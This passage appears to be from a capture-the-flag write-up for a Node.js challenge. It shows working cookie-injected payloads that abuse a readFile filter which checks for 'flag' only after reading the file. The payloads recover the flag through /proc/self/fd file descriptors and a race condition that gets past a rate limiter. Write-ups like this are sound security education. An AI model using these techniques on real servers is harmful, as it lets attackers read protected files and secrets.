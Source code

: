 > That means, that if a process on the machine is accessing `/flag.txt` at the moment, it has a file descriptor pointing to it. We can then read the flag from the path: `/proc/{PID}/fd/{FD}`

### What process is reading `/flag.txt`?

Notice in `readFile`:
```javascript
readFile: (path)=>{
	path = new String(path).toString()
	if(fs.statSync(path).size == 0)
		return null
	let r = fs.readFileSync(path)
	if(!path.includes('flag'))
		return r
	return null
}
```

The path we give to the `readFile` is read from anyway, **even if the path contains `flag`**. That means, that even if we can't read the contents of `/flag.txt` directly, we can still invoke the creation of a file descriptor by running `readFile('/flag.txt')`.  
We won't be able to get the output, but it would create a file descriptor pointing to `/flag.txt`, in the `nodejs` process.  

So the plan is:
1. Start a thread that constently tries to read the flag. It won't succeed, but it will create those precious file descriptors in `/proc/self/fd`.
2. Imediatly start another thread, that tries to read all the files in `/proc/self/fd`.
3. Continue doing step 1 and 2 until it works.

The `order` cookie in the file descriptor creation thread:
```javascript
a = _=> { return readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + a`` }, a``
````
It creates a function named `a`, which uses recursion to keep trying to read `/flag.txt`

The `order` cookie in the file descriptor reader thread:
```javascript
readFile`/proc/self/fd/0`, readFile`/proc/self/fd/1`, readFile`/proc/self/fd/2`, readFile`/proc/self/fd/3`, readFile`/proc/self/fd/4`, readFile`/proc/self/fd/5`, readFile`/proc/self/fd/6`, readFile`/proc/self/fd/7`, readFile`/proc/self/fd/8`, readFile`/proc/self/fd/9`, readFile`/proc/self/fd/10`, readFile`/proc/self/fd/11`, readFile`/proc/self/fd/12`, readFile`/proc/self/fd/13`, readFile`/proc/self/fd/14`, readFile`/proc/self/fd/15`, readFile`/proc/self/fd/16`, readFile`/proc/self/fd/17`, readFile`/proc/self/fd/18`, readFile`/proc/self/fd/19`, readFile`/proc/self/fd/20`, readFile`/proc/self/fd/21`, readFile`/proc/self/fd/22`, readFile`/proc/self/fd/23`, readFile`/proc/self/fd/24`, readFile`/proc/self/fd/25`, readFile`/proc/self/fd/26`, readFile`/proc/self/fd/27`, readFile`/proc/self/fd/28`
```
And yes, there is probably a better way to implement the file descriptor reader using loops, but it works.

Because the threads start immediatly, there's sometimes a race condition in the rate limmiter validation, that allows us to pass it and run two instances of `checkout` at the same time.  
Either that, or something about my implementation sometimes causes the file descriptor to never close, which works as well.  

> If you have any questions, I'll be glad to answer them. You can do so by opening an issue.
